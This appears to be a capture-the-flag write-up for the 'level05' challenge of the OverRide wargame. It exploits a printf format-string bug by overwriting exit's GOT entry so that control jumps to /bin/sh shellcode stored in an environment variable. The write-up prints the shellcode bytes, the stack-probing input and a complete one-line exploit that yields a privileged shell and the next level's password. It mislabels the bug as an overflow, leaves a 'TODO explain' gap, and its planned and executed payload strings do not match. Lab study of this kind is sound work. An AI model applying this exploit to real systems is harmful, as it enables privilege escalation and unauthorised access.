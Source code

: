 ### step 1 : decompile binary with ghidra

### step 2 : Check all the functions availaible :
- We find in the n function an overflow-vulnerable functions : printf(). It is vulnerable because there is no casting, printf takes a buffer. We can take advantage of that call to trick printf to read/write memory with flags in our buffer.

- An `exit(1)` call is made just after the `printf` call

This function launches a shell, therefore is our key to gain access the flag 

#### strategy 

Our strategy : overwrite the call of the `exit` function by the call of a shellcode defined in env to get access to a shell with privileges to read `/home/user/level6/.pass`  


### step3 : find exit addresses

- Address of `exit` in the Global Table Offset (GOT) : 
```
level05@OverRide:~$ objdump -R level05 

level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main

```
exit : 080497e0

The `exit` address is 080497e0 => \xe0\x97\x04\x08
 : We will overwrite this address with the address of the shellcode


### step4 : setup shellcode in env

env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')

### step5: exploit printf overflow vulnerability


- we want to now at which position the printf starts to write the string given. For this with use this string as input : <n * char><n * %08x>
%08x will display the content of the stack chunks wrote next to the printf call

8 says that you want to show 8 digits
0 that you want to prefix with 0's instead of just blank spaces
x that you want to print in lower-case hexadecimal

```bash
./level5
aaaa%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
=> aaaa00000064.f7fcfac0.f7ec3af9.ffffd6df.ffffd6de.00000000.ffffffff.ffffd764.f7fdb000.61616161.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838
```                              

- a value is 61
- We then find that printf argument position is at 10th position

shellcode address little endian : \xae\xde\xff\xff
shellcode address : 0xffffdeae

- The function shellcode address in decimal is 4294958766 
- We have to substract the 4 bytes of the destination address written at the start of the string : 4294958766 - 4 = 4294958762
- Our number of bytes is too big to be printed in a single destintation => we need to split the bytes in two addresses :

\xe0\x97\x04\x08
\xe0\x97\x04\x08 + 2 = 0x080497e0 + 2 = \xe2\x97\x04\x08

we split our address in the two adresses :
0xffffdeae => 0xffff + 0xdeae

0xffff => 65535
0xdeae => 57006 
57006 - 8 = 56998

- TODO explain

65535 - 56998 = 8537 - 8 = 8529

- The exploit string will be formatted like that : 
`<destination addr> + <destination addr + 2> + %<value in decimal2 - 2 two addresses length (8) >d + %10$n + %<value in decimal1 - value in decimal2>d + %11$n` :
`"\xe2\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn"`
- To get the exploit working we have to keep stdin open with the `cat` trick like previous exercices :

```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998x" + "%10$hn" + "%8529x" + "%11$hn")' ; cat) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```
=>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
